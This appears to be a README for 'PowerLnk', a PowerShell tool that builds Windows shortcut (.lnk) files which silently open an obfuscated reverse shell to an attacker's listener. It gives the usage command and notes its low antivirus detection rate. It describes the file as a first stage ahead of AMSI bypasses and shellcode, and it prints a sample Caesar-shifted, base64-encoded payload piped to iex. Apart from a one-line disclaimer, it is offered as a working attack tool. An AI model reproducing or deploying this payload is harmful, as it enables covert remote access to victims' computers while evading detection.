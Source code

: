 # PowerLnk
generates a .Lnk file that executes a reverse shell in powershell using a caesar cipher as obfuscation, starts minimized then quickly hides the window. Tool is intended for strictly lawful purposes only. I'm not responsible for how it is used.

# Useage
script takes two parameters -ip and -port where ip and port is the device you are listening on

./PowerLnk.ps1 -ip '192.168.1.5' -port 443

# Current detection

scored a 4/62 on virustotal, intended for second stagers to be executed after initial callback due to including more to the lnk increases detections, so amsi, shellcode etc should be run after inital callback. I'll leave that up to yall to implement that for whatever engagement you're doing.


I'm working on a python server side console for c2


code executed will look something like ```[text.encoding]::ascii.getstring([type].([string]::new([char[]](('ewwiqfp}'|fhx).Bytes|%{$_-4}))).([string]::new([char[]](('kixx}ti'|fhx).Bytes|%{$_-4})))(([string]::new([char[]](('W}wxiq2Gsrzivx'|fhx).Bytes|%{$_-4}))))::([string]::new([char[]](('jvsqfewi:8wxvmrk'|fhx).Bytes|%{$_-4})))(([string]::new([char[]](('NLk=OI9ph}5T]qtp]7UkfqZ4PrRz]6xphLQyhKR{]6|t^[94OGM|SXMyQX]8PnIyQn]mPHU4Q}otPqhphLR4gqZlfWktS5xmi\Vp[55hNKM=QG8yRnY5Q~Z<N\w{jXx7eKpw^WksNKo=NLkygqZl^Gko]m{{PGVmPo|pfqh4eGotP[9pMHEti}VoTWlfg7p~hKZxPrVpiLUy^[9nf6VtfqhhSntr^\VpfqRz^Kpy^}k}QHI}R}otPqhphKN9hKZ~OGkse[Z8OGlS^\gxX6Nu^[R4MG54MLVpiLUy]\Rne[ppfqRz^Kpy^}oy^6Z4g7V}e[9rOGVmPHEwNKotOXM/NnJ<f7Z4P\R4gqpy^}ovOLF7^GoygKJ4eGwmTmEmOWo;NLkyh7NthKYsNKUwQG{o^G9Q^[9rhKktS}V8Pq^wh\RsOGp='|fhx).Bytes|%{$_-4})))))|i`ex```
